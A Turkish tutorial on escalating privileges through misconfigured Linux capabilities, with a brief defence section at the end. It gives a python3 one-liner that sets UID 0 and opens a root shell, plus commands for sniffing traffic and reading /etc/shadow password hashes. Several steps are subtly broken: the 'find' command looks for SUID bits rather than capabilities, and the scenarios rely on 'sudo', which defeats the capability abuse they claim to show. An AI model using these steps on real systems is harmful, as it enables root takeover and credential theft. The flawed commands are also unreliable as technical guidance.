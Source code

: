 ### Linux Capabilities ile Privilege Escalation (Yetki Yükseltme) Rehberi

Linux Capabilities, işlemlere root yetkilerinin bir alt kümesini atamaya olanak tanır. Ancak, bu yetkiler yanlış yapılandırıldığında, yetki yükseltme için kullanılabilir. Bu rehberde, Linux Capabilities kullanılarak nasıl yetki yükseltme yapılacağını adım adım açıklayacağız.

---

#### 1. **Linux Capabilities Nedir?**
Linux Capabilities, geleneksel süper kullanıcı (root) yetkilerini ayrıcalıklı işlemlere bölerek daha ince bir kontrol sağlar. Bazı yaygın yetenekler şunlardır:

- `CAP_CHOWN`: Dosya sahipliğini değiştirme.
- `CAP_DAC_OVERRIDE`: Dosya izinlerini göz ardı etme.
- `CAP_NET_RAW`: Ham soket işlemleri yapma.

---

#### 2. **Capabilities Kontrolü**
Bir dosyanın hangi capabilities'e sahip olduğunu kontrol etmek için şu komut kullanılabilir:
```bash
getcap <dosya_yolu>
```
Örnek:
```bash
getcap /usr/bin/python3
```
Eğer çıktı şunu gösteriyorsa:
```
/usr/bin/python3 = cap_setuid+ep
```
Bu, dosyanın `CAP_SETUID` yeteneğine sahip olduğunu belirtir.

---

#### 3. **Yetki Yükseltme için Gereken Adımlar**

##### Adım 1: **Yeteneği Belirleme**
Sistemdeki tüm dosyaların capabilities değerlerini listelemek için şu komut kullanılabilir:
```bash
find / -type f -perm -4000 -exec getcap {} + 2>/dev/null
```
Bu komut, `capabilities` atanmış dosyaları arar.

##### Adım 2: **Yanlış Yapılandırmayı Analiz Etme**
Bazı capabilities, root yetkisi kazanmak için kullanılabilir:

- **`CAP_SETUID` veya `CAP_SETGID`:**
  Bu yeteneklere sahip bir dosya, UID/GID değiştirme yetkisine sahiptir.

- **`CAP_DAC_READ_SEARCH`:**
  Bu yetenek, izin kısıtlamalarını göz ardı ederek dosya ve dizinlere erişim sağlar.

##### Adım 3: **Exploit Etme**
Örneğin, `CAP_SETUID` yeteneği atanmış bir dosya ile:
1. Yeteneği kontrol edin:
    ```bash
    getcap /bin/python3
    ```
    Çıktı:
    ```
    /bin/python3 = cap_setuid+ep
    ```
2. Bu dosyayı kullanarak bir shell açın:
    ```bash
    /bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

---

#### 4. **Yaygın Saldırı Senaryoları**

##### Senaryo 1: `CAP_NET_RAW` ile Ham Soket Erişimi
Bu yetenek, ham soket oluşturulmasına izin verir ve bazen root yetkisi elde etmek için kullanılabilir.

**Exploit:**
Bir ağ dinleyicisi oluşturmak için şu adımları izleyebilirsiniz:
```bash
getcap /usr/bin/tcpdump
/usr/bin/tcpdump = cap_net_raw+ep
sudo /usr/bin/tcpdump -i lo
```
Bu işlemle ağ trafiğini dinleme yetkisi elde edersiniz.

##### Senaryo 2: `CAP_DAC_OVERRIDE` ile Dosya İzinlerini Aşma
Bu yetenek, dosya izinlerini atlayarak hassas dosyaları okumayı sağlar.

**Exploit:**
```bash
getcap /bin/cat
/bin/cat = cap_dac_override+ep
sudo /bin/cat /etc/shadow
```
Bu işlem, şifre hash'lerini okumanıza olanak tanır.

---

#### 5. **Savunma Yöntemleri**
Linux Capabilities tabanlı yetki yükseltme saldırılarından korunmak için:

1. **Capabilities Atamalarını Gözden Geçirin:**
   Sistemdeki capabilities'leri düzenli olarak kontrol edin:
   ```bash
   getcap -r /
   ```

2. **Gereksiz Yetkileri Kaldırın:**
   Yanlış yapılandırılmış capabilities'i kaldırmak için şu komut kullanılabilir:
   ```bash
   setcap -r <dosya_yolu>
   ```

3. **Dosya İzinlerini Kontrol Edin:**
   Hassas dosyaların yalnızca yetkili kullanıcılar tarafından erişilebilir olduğundan emin olun.

4. **Logları İnceleyin:**
   Güvenlik olaylarını tespit etmek için sistem loglarını düzenli olarak kontrol edin.

5. **Kernel Güncellemelerini Yükleyin:**
   Kernel'deki capabilities ile ilgili güvenlik açıklarını gidermek için sisteminizi güncel tutun.

---

Bu rehberde, Linux Capabilities'in nasıl yetki yükseltme için kullanılabileceğini ve bu tür saldırılara karşı nasıl savunma yapılacağını öğrendiniz. Etik kurallar çerçevesinde çalışmayı unutmayın.

